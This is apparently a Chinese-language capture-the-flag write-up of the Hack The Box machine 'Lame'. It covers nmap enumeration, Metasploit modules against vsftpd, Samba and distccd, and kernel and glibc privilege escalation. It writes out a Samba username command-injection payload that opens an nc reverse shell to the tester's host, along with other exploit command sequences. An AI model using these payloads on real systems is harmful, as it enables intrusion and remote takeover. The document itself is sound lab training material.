




Lame Writeup

0x00 写在前面
Lame 比较简单，篇幅比较啰嗦，旨在：
- 讲清楚步骤和思路。
- 尽可能把可以利用的点走一遍，所以一处服务会有多种打法，虽然有的没成功ahahaha。
- 算是一点总结提升。
0x01 信息收集
上来第一件事先扫下开放端口，刚开始先用脚本把全端口跑一遍。
在目录下新建一个 nmap 文件夹用来放扫描结果，整个渗透过程中可能存在多阶段扫描，很多结果需要分类。
1、TCP Scan
第一次扫描 TCP 端口可以取名为 tcp.*，放在 nmap/ 下。
直接扫全端口。
nmap -A -p- -oA nmap/tcp 10.10.10.3-A == -sC -sV -O -traceroute
- -sC: 会执行默认脚本
- -sV: 检测开放端口的服务版本
- -O: 检测操作系统
- -traceroute: 路由跟踪
- -p-: 1-65535 全端口探测
- -oA: 输出所有格式的信息并存为 nmap/tcp.*
如果想先快速扫开放端口，再扫服务，差别不大，对比看这里。
康康扫到了啥。
- 21: vsftpd 2.3.4，且允许匿名登录
- 22: openssh 4.7，允许 root 密码登录，可爆破
- 139: samba 3.x ~ 4.x，可能是漏洞版本
- 445: samba 3.0.20-Debian，可能是漏洞版本
- 3632: distccd v1，分布式编译器守护进程
2、UDP Scan
第二次扫描看看有没有开放的 UDP 端口，可以取名为 udp.*，放在 namp 下。
nmap -sU -p- -oA nmap/udp 10.10.10.3没有扫到，无 UDP 端口开放。
共开放了 tcp 21、22、139、445、3632 端口。
0x02 漏洞利用
根据端口逐一突破。
0、找 EXP
根据不同的端口服务去找利用方式，如何又快又准地在茫茫多的 exp 中找到匹配的那个，找 EXP 的姿势很关键。
对于每个端口，应该根据 服务和对应版本，搜寻是否有已公开的利用方式，搜寻的方式可以是：
- www.google.com.hk
searchsploit {keyword}关键字一般取漏洞描述，比如privilegesamba- kali 中各种扫描器
nmap script: ll /usr/share/nmap/scripts/ | grep {keyword}关键字可以是 cve 也可以是 漏洞描述，比如cvesambamsf: search {keyword}关键字可以是 cve 也可以是 漏洞描述，比如cvesamba
！建议先翻下 Google，再用 cve、服务名、版本、描述 等关键字在 kali 里搜。
这样比较准。因为搜索引擎的检索比较可以智能地匹配你的关键字，而且可能有现成的利用方式。kali 里就没这么智能，关键字不匹配则比较难搜出来，即使本来就集成的 exp。
！当然你也可以直接 searchexploit / nmap / msf 搜一大堆再挨个找。
看看说明，逐一筛选 探测脚本 或 可用 exp，能用的直接用，没找到的可以在 google 找下，可能已经公开 exp 但尚未集成 kali，这时候需要 手工利用。
！Google、Searchsploit、Nmap/MSF 三位一体漏洞库搜索结果一起看，总会有你想要的。
1、Port 21
google 一下发现 vsftpd v2.3.4 有公开 RCE，是开发哥写的后门，康康 nmap 有无脚本，路径在 /usr/share/nmap/scripts/*。
ll /usr/share/nmap/scripts/ftp*
nmap 扫一下，没有详细漏洞回显，说明这里无法利用。
nmap --script ftp-vsftpd-backdoor -p 21 10.10.10.3
不甘心，上 MSF 找下 exp 试试，执行后没有发现开启 6200 后门端口，打不下来，可能已经修复，或是姿势不对？总之这里搞不来，下一位。。。
search vsftp
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set rhosts 10.10.10.3
exploit
2、Port 22
google 一下没有找到有用的漏洞，dos 啥的没用。找下 nmap 相关脚本。
ll /usr/share/nmap/scripts/ssh*脚本扫出允许公钥和密码登录，可以爆破。MSF 也没找到 exp。爆破这玩意不靠谱，先放一下没办法了再说。
nmap --script ftp-vsftpd-backdoor -p 21 10.10.10.33、Port 139、445
这两个端口起的 netbios-ssn 服务（同时支持 NTB 和 TCP/IP 协议），用的是 samba，google 一下当前版本，找到几个可能用得上。
- 3.0.x ~3.6.3: CVE-2012-1182
- 3.5.0 ~ 4.4.14: cve-2017-7494 pipename
- 3.2.20: cve-2007-2447，username_map_script RCE
MSF 开起来，搜关键字 1182，找到这个，该 exp 支持 check，配置参数，对每个 target 都 check 一下，报无法利用。
search 1182
use exploit/linux/samba/setinfopolicy_heap
set rhosts 10.10.10.3
set lhost 10.10.14.20
set target x
check
看下一个。
search 7494找到 samba。
info 命令查看 exp 介绍和配置。
info exploit/linux/samba/is_known_pipename描述说需要一个有效的凭证，还得知道一个可写路径，条件比较苛刻，暂不可用。
补充一下
前面 samba 的两个漏洞在
nmap里是有探测脚本的，所以也可以通过 nmap 来判断漏洞是否存在，看个人习惯，我比较喜欢 msf 骑脸。nmap --script samba-vuln-cve-2012-1182.nse -p 139,445 10.10.10.3
看下一个。
search 2447找到 samba。
info 是个好东西，要常用。
info exploit/multi/samba/usermap_script根据描述，该 exp 可以利用 3.0.20 ~ 3.0.25rc3 版本 samba 存在的 RCE 漏洞，没啥其他条件。
根据前面信息收集，靶机版本为 3.0.20 符合要求。

姿势一：msf 一键 getshell
设置好相应参数，exploit 执行。有几个地方需要注意一下。
- rport 默认 139，但是根据扫描结果，139 端口并未探明服务版本，而是给了一个比较大的区间
3.x ~ 4.x，所以先选了确定存在漏洞版本的 445 端口。 - lhost 默认应该会取一个距离目标最近的 ip（纯个人判断，未了解这里的取值机制），所以这里默认取
10.10.10.133，但这 ip 并不是我的 vpn ip，只是碰巧之前设置内网 ip 的时候配了个10.10.10.x，所以这里要改成 vpn ip10.10.14.11，一般情况下默认取值为 vpn ip 不需要改。
use exploit/multi/samba/usermap_script
set rhosts 10.10.10.3
set rport 445
set lhost 10.10.14.11
exploit执行以后看到收到反弹 shell，看到 Command shell session 1 opened (10.10.14.11:4444 -> 10.10.10.3:60557) at 2020-11-08 02:28:38 +0800，会话生成。
输入命令 hostname、id 确认获取到靶机 root 权限。
hostname
id姿势二：手操 N 键 getshell
msf 只是把整个利用过程脚本自动化了，如果手动利用应该怎么做呢？先看下漏洞原理。
Samba 中负责在 SAM 数据库更新用户口令的代码未经过滤便将用户输入传输给了 /bin/sh。如果在调用 smb.conf 中定义的外部脚本时，通过对 /bin/sh 的 MS-RPC 调用提交了恶意输入的话，就可能允许攻击者以 nobody （匿名）用户的权限执行任意命令。CVE-2007-2447
所以利用条件有 3 个：
- 可登录的账号
- 有权限的（可访问）共享文件夹
- 在登录时提交恶意输入使命令执行
首先 smbclient 列一下靶机的共享列表，然后 smbmap 查看权限。
smbclient -L 10.10.10.3
smbmap -H 10.10.10.3得到了前两个条件：
- 允许匿名登录
- /tmp 文件夹对匿名用户具有读写权限
所以接下来只需要在登录时提交 payload 即可，输入点在 username, 构造方式为：
"/=`nohup " + payload.encoded + "`"最终利用：在本地起一个监听 4444，然后通过登录传入反弹 shell 命令，命令执行后 getshell。
nc -lvvp 4444 # 本地起监听 4444
smbclient //10.10.10.3/tmp # 匿名登录、连接共享目录
logon "/=`nohup nc -nv 10.10.14.20 4444 -e /bin/sh`" # 登录传入 payload
姿势三：挂载根目录获取 flag
思路就是把靶机根目挂载到共享文件夹，然后通过 smb 可以访问到根目录文件。
use auxiliary/admin/smb/samba_symlink_traversal
set rhosts 10.10.10.3
set smbshare tmp
exploit可以看到靶机根目录已经挂载到共享文件夹 /tmp/rootfs 下，然后连上去翻文件。
smbclient //10.10.10.3/tmp # 匿名登录、连接共享目录
ls rootfs/home/makis/user.txt # 找到 flag
get rootfs/home/makis/user.txt # 下载到本地查看，获取 flagsmbclient 如果报错：
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
可尝试加参数：–option='client min protocol=NT1。但我是加了两行配置解决的：vi /etc/samba/smb.conf [global] client min protocol = CORE client max protocol = SMB3

TODO: 这个姿势目前没拿到 root，记个待办。
- 匿名登录为普通用户权限，无法访问
root/*下的文件，所以看不到 root.txt- 尝试挂载到本地
mount -t nfs 10.10.10.3:/tmp /tmp/rootmesmbmount //10.10.10.3/tmp /tmp/rootme -o rhh没用，应该姿势没对 mount smbmount- 尝试
上传/写入公钥没成功，感觉也是姿势不对。使用的命令估计不需要什么提权操作，写入
ssh 公钥是突破口，烦死了，这个有空再研究。
4、Port 3626
照例先查，nmap 有脚本可以扫、可以加参数执行命令。
msf 有 exp 可以直接 getshell。
问题来了，拿到普通用户 daemon 权限，需要提权。查看内核版本为 2.6.24-16-server。
针对内核版本去找 exp。首先康康 searchsploit Linux Kernel 2.6。
图就不放了，太多，搞死人，换个姿势。。。
姿势一
刚刚不是有个 shell 嘛，用一个超勇的 利用建议器，来帮我们找出哪些 exp 可以用。这里能找出的 exp 必须是支持 check 的，不然它也没法扫描确认可以使用。
首先退出会话，升级 shell 为 meterpreter，即 msf 的高级 shell。
background
session -u {sessionId}
调出建议器，设置好参数运行，它会通过会话在靶机上做 exp 检测，给出有效的漏洞列表，不完全准确，需要手工验证。
use post/multi/recon/local_exploit_suggester # 使用建议器械
session -u 4 # 设置刚刚升级的 sessionId
exploit
给出 5 个可以利用，先试试第一个。
use exploit/linux/local/glibc_ld_audit_dso_load_priv_esc
set lhost 10.10.14.20
set lport 4445
set session 3
exploit配置完毕跑一下，可以看到 root 会话生成，并且可以访问 root.txt 获得 flag。
如果会话无法生成：Reason: Die。升级最新版 msf 试试。
姿势二（TODO）
尝试 CVE-2009-1185。
利用流程：searchexploit -m 8572.c，传到机器上编译 gcc 8572.c -o 8572，获取 netlink PID cat /proc/net/netlink，执行提权的时候，会以 root 身份运行 /tmp/run（得自己加一个反弹 shell 脚本，命名为 /tmp/run），反弹到 kali 上获取 root-shell。
或者用内置 exp: exploit/linux/local/udev_netlink，使用方式与上面一致。
然鹅两种方式都没成功，最后一步 run 始终没有执行，网上找了一下别人也是这么操作的。不想赖给环境，怀疑是 htb 方面把这个洞补了。。。
有空再研究。